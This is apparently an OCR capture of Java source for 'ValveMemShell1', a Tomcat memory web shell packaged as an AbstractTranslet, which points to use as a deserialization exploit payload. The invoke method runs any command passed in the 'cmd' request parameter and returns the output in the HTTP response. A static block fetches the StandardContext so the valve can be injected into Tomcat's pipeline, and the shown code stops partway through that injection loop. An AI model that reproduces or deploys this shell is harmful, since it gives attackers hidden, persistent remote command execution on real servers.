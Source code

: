 ```java
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

public class ValveMemShell1 extends AbstractTranslet implements Valve {
    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject Valve invoke.....................................................................");
        String cmdParamName = "cmd";
        String cmd;
        try {
            if ((cmd = request.getParameter(cmdParamName)) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                response.getOutputStream().write(stringBuilder.toString().getBytes());
                response.getOutputStream().flush();
                response.getOutputStream().close();
                return;
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }

    static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                Pipeline standardPipeline = standardContext.getPipeline();
                Valve[] valves = standardPipeline.getValves();
                boolean hasValveShell = false;
                Valve valveShell = new ValveMemShell1();
                for (Valve valve : valves) {
```